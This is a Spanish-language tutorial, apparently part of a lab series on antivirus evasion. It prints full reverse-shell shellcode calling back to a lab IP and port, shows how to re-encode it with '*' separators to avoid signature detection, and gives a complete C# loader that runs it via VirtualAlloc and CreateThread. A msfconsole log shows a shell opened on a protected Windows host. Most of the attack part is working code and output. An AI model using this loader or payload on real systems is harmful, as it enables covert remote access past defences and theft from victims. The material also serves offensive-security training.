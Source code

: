 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Evasión de antivirus con C - Parte 2

Siguiendo el codigo en `C#` de la parte anterior igualmente ese codigo lo puede seguir detectando algunos antivirus, ya que el `payload` que hemos utilizado lo hemos pegado directamente sin realizar ninguna modificacion al mismo, por eso el poder ser detectados, por lo que vamos a realizar alguna modificacion de la siguiente forma:

En este caso vamos a utilizar el editor de archivos llamado `emacs` para que todo esto vaya de forma mas automatizada:

```shell
emacs
```

Una vez dentro abriremos una nueva hoja y pegaremos el siguiente `payload` del codigo anterior:

```
0xfc,0xe8,0x8f,0x00,0x00,0x00,
0x60,0x31,0xd2,0x89,0xe5,0x64,0x8b,0x52,0x30,0x8b,0x52,0x0c,
0x8b,0x52,0x14,0x0f,0xb7,0x4a,0x26,0x31,0xff,0x8b,0x72,0x28,
0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,
0x01,0xc7,0x49,0x75,0xef,0x52,0x57,0x8b,0x52,0x10,0x8b,0x42,
0x3c,0x01,0xd0,0x8b,0x40,0x78,0x85,0xc0,0x74,0x4c,0x01,0xd0,
0x8b,0x48,0x18,0x8b,0x58,0x20,0x50,0x01,0xd3,0x85,0xc9,0x74,
0x3c,0x49,0x31,0xff,0x8b,0x34,0x8b,0x01,0xd6,0x31,0xc0,0xac,
0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf4,0x03,0x7d,0xf8,
0x3b,0x7d,0x24,0x75,0xe0,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,
0x8b,0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,
0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,
0xe0,0x58,0x5f,0x5a,0x8b,0x12,0xe9,0x80,0xff,0xff,0xff,0x5d,
0x68,0x33,0x32,0x00,0x00,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,
0x4c,0x77,0x26,0x07,0x89,0xe8,0xff,0xd0,0xb8,0x90,0x01,0x00,
0x00,0x29,0xc4,0x54,0x50,0x68,0x29,0x80,0x6b,0x00,0xff,0xd5,
0x6a,0x0a,0x68,0xc0,0xa8,0x05,0xcd,0x68,0x02,0x00,0x1e,0x61,
0x89,0xe6,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,
0x0f,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x10,0x56,0x57,0x68,0x99,
0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0x0a,0xff,0x4e,0x08,
0x75,0xec,0xe8,0x67,0x00,0x00,0x00,0x6a,0x00,0x6a,0x04,0x56,
0x57,0x68,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x00,0x7e,
0x36,0x8b,0x36,0x6a,0x40,0x68,0x00,0x10,0x00,0x00,0x56,0x6a,
0x00,0x68,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x93,0x53,0x6a,0x00,
0x56,0x53,0x57,0x68,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,
0x00,0x7d,0x28,0x58,0x68,0x00,0x40,0x00,0x00,0x6a,0x00,0x50,
0x68,0x0b,0x2f,0x0f,0x30,0xff,0xd5,0x57,0x68,0x75,0x6e,0x4d,
0x61,0xff,0xd5,0x5e,0x5e,0xff,0x0c,0x24,0x0f,0x85,0x70,0xff,
0xff,0xff,0xe9,0x9b,0xff,0xff,0xff,0x01,0xc3,0x29,0xc6,0x75,
0xc1,0xc3,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,0x00,0x53,0xff,0xd5
```

Seleccionamos todo el `payload` y haremos `Alt+M` -> pondremos `replace-string` -> pondremos `0x` -> `ENTER` -> pondremos `*` -> `ENTER`.

Y con esto habremos reemplazado todos los `0x` por un `*`:

```
*fc,*e8,*8f,*00,*00,*00,
*60,*31,*d2,*89,*e5,*64,*8b,*52,*30,*8b,*52,*0c,
*8b,*52,*14,*0f,*b7,*4a,*26,*31,*ff,*8b,*72,*28,
*31,*c0,*ac,*3c,*61,*7c,*02,*2c,*20,*c1,*cf,*0d,
*01,*c7,*49,*75,*ef,*52,*57,*8b,*52,*10,*8b,*42,
*3c,*01,*d0,*8b,*40,*78,*85,*c0,*74,*4c,*01,*d0,
*8b,*48,*18,*8b,*58,*20,*50,*01,*d3,*85,*c9,*74,
*3c,*49,*31,*ff,*8b,*34,*8b,*01,*d6,*31,*c0,*ac,
*c1,*cf,*0d,*01,*c7,*38,*e0,*75,*f4,*03,*7d,*f8,
*3b,*7d,*24,*75,*e0,*58,*8b,*58,*24,*01,*d3,*66,
*8b,*0c,*4b,*8b,*58,*1c,*01,*d3,*8b,*04,*8b,*01,
*d0,*89,*44,*24,*24,*5b,*5b,*61,*59,*5a,*51,*ff,
*e0,*58,*5f,*5a,*8b,*12,*e9,*80,*ff,*ff,*ff,*5d,
*68,*33,*32,*00,*00,*68,*77,*73,*32,*5f,*54,*68,
*4c,*77,*26,*07,*89,*e8,*ff,*d0,*b8,*90,*01,*00,
*00,*29,*c4,*54,*50,*68,*29,*80,*6b,*00,*ff,*d5,
*6a,*0a,*68,*c0,*a8,*05,*cd,*68,*02,*00,*1e,*61,
*89,*e6,*50,*50,*50,*50,*40,*50,*40,*50,*68,*ea,
*0f,*df,*e0,*ff,*d5,*97,*6a,*10,*56,*57,*68,*99,
*a5,*74,*61,*ff,*d5,*85,*c0,*74,*0a,*ff,*4e,*08,
*75,*ec,*e8,*67,*00,*00,*00,*6a,*00,*6a,*04,*56,
*57,*68,*02,*d9,*c8,*5f,*ff,*d5,*83,*f8,*00,*7e,
*36,*8b,*36,*6a,*40,*68,*00,*10,*00,*00,*56,*6a,
*00,*68,*58,*a4,*53,*e5,*ff,*d5,*93,*53,*6a,*00,
*56,*53,*57,*68,*02,*d9,*c8,*5f,*ff,*d5,*83,*f8,
*00,*7d,*28,*58,*68,*00,*40,*00,*00,*6a,*00,*50,
*68,*0b,*2f,*0f,*30,*ff,*d5,*57,*68,*75,*6e,*4d,
*61,*ff,*d5,*5e,*5e,*ff,*0c,*24,*0f,*85,*70,*ff,
*ff,*ff,*e9,*9b,*ff,*ff,*ff,*01,*c3,*29,*c6,*75,
*c1,*c3,*bb,*f0,*b5,*a2,*56,*6a,*00,*53,*ff,*d5
```

Ahora vamos a quitar las `,` haciendo lo mismo que antes, pero en esta parte donde nos da a elegir 2 opciones pondremos primero donde habiamos puesto el `0x` pondremos una `,` y en la segunda parte donde pusimos el `*` pondremos nada para dejarlo vacio y que se eliminen, quedando algo asi:

```
*fc*e8*8f*00*00*00
*60*31*d2*89*e5*64*8b*52*30*8b*52*0c
*8b*52*14*0f*b7*4a*26*31*ff*8b*72*28
*31*c0*ac*3c*61*7c*02*2c*20*c1*cf*0d
*01*c7*49*75*ef*52*57*8b*52*10*8b*42
*3c*01*d0*8b*40*78*85*c0*74*4c*01*d0
*8b*48*18*8b*58*20*50*01*d3*85*c9*74
*3c*49*31*ff*8b*34*8b*01*d6*31*c0*ac
*c1*cf*0d*01*c7*38*e0*75*f4*03*7d*f8
*3b*7d*24*75*e0*58*8b*58*24*01*d3*66
*8b*0c*4b*8b*58*1c*01*d3*8b*04*8b*01
*d0*89*44*24*24*5b*5b*61*59*5a*51*ff
*e0*58*5f*5a*8b*12*e9*80*ff*ff*ff*5d
*68*33*32*00*00*68*77*73*32*5f*54*68
*4c*77*26*07*89*e8*ff*d0*b8*90*01*00
*00*29*c4*54*50*68*29*80*6b*00*ff*d5
*6a*0a*68*c0*a8*05*cd*68*02*00*1e*61
*89*e6*50*50*50*50*40*50*40*50*68*ea
*0f*df*e0*ff*d5*97*6a*10*56*57*68*99
*a5*74*61*ff*d5*85*c0*74*0a*ff*4e*08
*75*ec*e8*67*00*00*00*6a*00*6a*04*56
*57*68*02*d9*c8*5f*ff*d5*83*f8*00*7e
*36*8b*36*6a*40*68*00*10*00*00*56*6a
*00*68*58*a4*53*e5*ff*d5*93*53*6a*00
*56*53*57*68*02*d9*c8*5f*ff*d5*83*f8
*00*7d*28*58*68*00*40*00*00*6a*00*50
*68*0b*2f*0f*30*ff*d5*57*68*75*6e*4d
*61*ff*d5*5e*5e*ff*0c*24*0f*85*70*ff
*ff*ff*e9*9b*ff*ff*ff*01*c3*29*c6*75
*c1*c3*bb*f0*b5*a2*56*6a*00*53*ff*d5
```

Ahora solo tendremos que quitar todos los saltos de linea para que quede todo en una unica linea y le pondremos `"` al principio y final de la siguiente forma:

```
"fc*e8*8f*00*00*00*60*31*d2*89*e5*64*8b*52*30*8b*52*0c*8b*52*14*0f*b7*4a*26*31*ff*8b*72*28*31*c0*ac*3c*61*7c*02*2c*20*c1*cf*0d*01*c7*49*75*ef*52*57*8b*52*10*8b*42*3c*01*d0*8b*40*78*85*c0*74*4c*01*d0*8b*48*18*8b*58*20*50*01*d3*85*c9*74*3c*49*31*ff*8b*34*8b*01*d6*31*c0*ac*c1*cf*0d*01*c7*38*e0*75*f4*03*7d*f8*3b*7d*24*75*e0*58*8b*58*24*01*d3*66*8b*0c*4b*8b*58*1c*01*d3*8b*04*8b*01*d0*89*44*24*24*5b*5b*61*59*5a*51*ff*e0*58*5f*5a*8b*12*e9*80*ff*ff*ff*5d*68*33*32*00*00*68*77*73*32*5f*54*68*4c*77*26*07*89*e8*ff*d0*b8*90*01*00*00*29*c4*54*50*68*29*80*6b*00*ff*d5*6a*0a*68*c0*a8*05*cd*68*02*00*1e*61*89*e6*50*50*50*50*40*50*40*50*68*ea*0f*df*e0*ff*d5*97*6a*10*56*57*68*99*a5*74*61*ff*d5*85*c0*74*0a*ff*4e*08*75*ec*e8*67*00*00*00*6a*00*6a*04*56*57*68*02*d9*c8*5f*ff*d5*83*f8*00*7e*36*8b*36*6a*40*68*00*10*00*00*56*6a*00*68*58*a4*53*e5*ff*d5*93*53*6a*00*56*53*57*68*02*d9*c8*5f*ff*d5*83*f8*00*7d*28*58*68*00*40*00*00*6a*00*50*68*0b*2f*0f*30*ff*d5*57*68*75*6e*4d*61*ff*d5*5e*5e*ff*0c*24*0f*85*70*ff*ff*ff*e9*9b*ff*ff*ff*01*c3*29*c6*75*c1*c3*bb*f0*b5*a2*56*6a*00*53*ff*d5"
```

Ahora el codigo modificado quedaria de la siguiente forma:

```cs
using System;
using System.Collections.Generic;
using System.Linq;
using System.Runtime.InteropServices;
using System.Text;

namespace WIn32

{
    class Program
    {

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]

        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]

        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddess, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]

        static extern UInt32 WaitForSingleObject(IntPtr hHandler, UInt32 dwMilliseconds);

        static void Main (string[] args)
        {

            string payload = "fc*e8*8f*00*00*00*60*31*d2*89*e5*64*8b*52*30*8b*52*0c*8b*52*14*0f*b7*4a*26*31*ff*8b*72*28*31*c0*ac*3c*61*7c*02*2c*20*c1*cf*0d*01*c7*49*75*ef*52*57*8b*52*10*8b*42*3c*01*d0*8b*40*78*85*c0*74*4c*01*d0*8b*48*18*8b*58*20*50*01*d3*85*c9*74*3c*49*31*ff*8b*34*8b*01*d6*31*c0*ac*c1*cf*0d*01*c7*38*e0*75*f4*03*7d*f8*3b*7d*24*75*e0*58*8b*58*24*01*d3*66*8b*0c*4b*8b*58*1c*01*d3*8b*04*8b*01*d0*89*44*24*24*5b*5b*61*59*5a*51*ff*e0*58*5f*5a*8b*12*e9*80*ff*ff*ff*5d*68*33*32*00*00*68*77*73*32*5f*54*68*4c*77*26*07*89*e8*ff*d0*b8*90*01*00*00*29*c4*54*50*68*29*80*6b*00*ff*d5*6a*0a*68*c0*a8*05*cd*68*02*00*1e*61*89*e6*50*50*50*50*40*50*40*50*68*ea*0f*df*e0*ff*d5*97*6a*10*56*57*68*99*a5*74*61*ff*d5*85*c0*74*0a*ff*4e*08*75*ec*e8*67*00*00*00*6a*00*6a*04*56*57*68*02*d9*c8*5f*ff*d5*83*f8*00*7e*36*8b*36*6a*40*68*00*10*00*00*56*6a*00*68*58*a4*53*e5*ff*d5*93*53*6a*00*56*53*57*68*02*d9*c8*5f*ff*d5*83*f8*00*7d*28*58*68*00*40*00*00*6a*00*50*68*0b*2f*0f*30*ff*d5*57*68*75*6e*4d*61*ff*d5*5e*5e*ff*0c*24*0f*85*70*ff*ff*ff*e9*9b*ff*ff*ff*01*c3*29*c6*75*c1*c3*bb*f0*b5*a2*56*6a*00*53*ff*d5";

            string[] temp_payload = payload.Split('*');

            byte[] payload_final = new byte[temp_payload.Length];

            for (int i = 0; i < temp_payload.Length; i++)
            {
                payload_final[i] = Convert.ToByte(temp_payload[i], 16);
            }

            Console.WriteLine();
            Console.ForegroundColor = ConsoleColor.Gray;
            Console.WriteLine("Iniciando sesion reversa");

            IntPtr funcAdrr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
            Marshal.Copy(payload_final, 0, funcAdrr, payload_final.Length);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, funcAdrr, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xffffffff);

        }
    }

}
```

Lo que estamos haciendo en esta parte del codigo `string payload = "fc*e8*8f*00*....";` es definir el `payload` que hemos modificado separado por `*`.

Despues en esta otra parte del codigo `string[] temp_payload = payload.Split('*');` lo que estamos haciendo es que cuando encuentre un `*` lo separe/parta para que tengamos una cadenas de `bytes`.

En esta parte `byte[] payload_final = new byte[temp_payload.Length];` simplemente estamos definiendo un `array` para posteriormente poder utilizarlo con el `payload`.

En el `bucle for` lo que estamos haciendo es que va recorriendo cada uno de los `strings` del `payload` que hemos modificado para poder convertir cada uno de los `*` en `bytes`.

La diferencia de todo esto es que la firma que llevaba antes de `msfvenom` era muy reconocible, pero ahora al crear nuestro propio `payload` es una firma propia, por lo que sera muy complicado de que un antivirus lo detecte actualmente.

Ahora vamos a volverlo a compilar y nos lo vamos a pasar a la maquina `WS02` el cual tiene el antivirus activado, cuando nos lo pasemos veremos que ni siquiera nos da un aviso de que pueda ser un `malware` por lo que esta funcionando de forma correcta, si nos volvemos a poner a la escucha en `msfconsole` con el `multi/handler` y ejecutamos el binario desde la maquina `WS02` y volvemos a donde tenemos la escucha:

```
[*] Started reverse TCP handler on 192.168.5.205:7777 
[*] Sending stage (240 bytes) to 192.168.5.209
[*] Command shell session 1 opened (192.168.5.205:7777 -> 192.168.5.209:52504) at 2025-02-06 04:07:26 -0500


Shell Banner:
Microsoft Windows [Versi_n 10.0.19045.3803]
(c) Microsoft Corporation. Todos los derechos reservados.

C:\Users\empleado2\Desktop>
-----
          

C:\Users\empleado2\Desktop>whoami
whoami
corp\empleado2
```

Veremos que efectivamente nos esta creando una `shell` sin ningun tipo de problema y sin que el antivirus detecte absolutamente nada.

